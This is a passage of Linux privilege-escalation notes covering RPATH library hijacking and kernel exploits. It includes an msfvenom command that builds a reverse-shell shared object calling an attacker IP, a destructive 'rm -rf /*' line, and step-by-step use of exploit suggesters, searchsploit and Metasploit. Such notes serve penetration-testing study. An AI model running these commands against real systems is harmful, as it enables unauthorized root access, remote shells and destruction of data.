 [Reference](https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_3.html)

- Determine the Shared Object Libraries being Loaded by an executable:
`ldd /usr/local/bin/program`
- Determine if the Executables was compiled with RPATH Options:
`objdump -x /usr/local.program | grep RPATH` and `objdump -x /usr/local.program | grep RUNPATH`
- We can try to place malicious file in rpath result which r=writable.
`msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker LPORT> -f elf-so -o program.so`
Then we can transfer payload to the RPATH directory and execute the program.

#### Kernel exploits

*Dirty Cow - Existed in Kernel versions since 2.6.22 (2007) and fixed in 2016*
[https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)
*Stack Clash (Multiple Distribution/Kernels)*
[https://blog.qualys.com/vulnerabilities-research/2017/06/19/the-stack-clash](https://blog.qualys.com/vulnerabilities-research/2017/06/19/the-stack-clash)
*DCCP DoubleFree Privilege Escalation (4.4.0 kernel/Ubuntu)*
[https://www.exploit-db.com/exploits/41458/](https://www.exploit-db.com/exploits/41458/)
*Race Condition Privilege Escalation (Linux kernel < 4.10.15)*
[https://www.exploit-db.com/exploits/43345](https://www.exploit-db.com/exploits/43345)

[Kernel](https://en.wikipedia.org/wiki/Linux_kernel), [FreeBSD](https://www.freebsd.org/)

Categories of kernel exploits:
- Buffer overflow: [https://en.wikipedia.org/wiki/Buffer_overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- Memory Corruption: [https://en.wikipedia.org/wiki/Memory_corruption](https://en.wikipedia.org/wiki/Memory_corruption)
- Denial-Of-Service: [https://en.wikipedia.org/wiki/Denial-of-service_attack](https://en.wikipedia.org/wiki/Denial-of-service_attack)
- Race conditions: [https://en.wikipedia.org/wiki/Race_condition](https://en.wikipedia.org/wiki/Race_condition)

`rm -rf /*` can delete entire operating system.
`searchsploit "linux kernel debian"`
[Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

`perl Linux_Exploit_Suggester.pl -k <kernel version>`
`uname -a` to find kernel version.

- Find right exploit.
- Download the exploit code.
- Compile it. (`gcc -version`, `gcc -m32 exploit.c -o exploit`...)
- Read the code carefully for requirments for executiion.
- Execute the exploit.

- Metasploit kernel Exploit: `use exploit/linux/local/`
`udev_netlink`

In addition to metasploit other tool is [KernelPop](https://github.com/spencerdodd/kernelpop).

[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

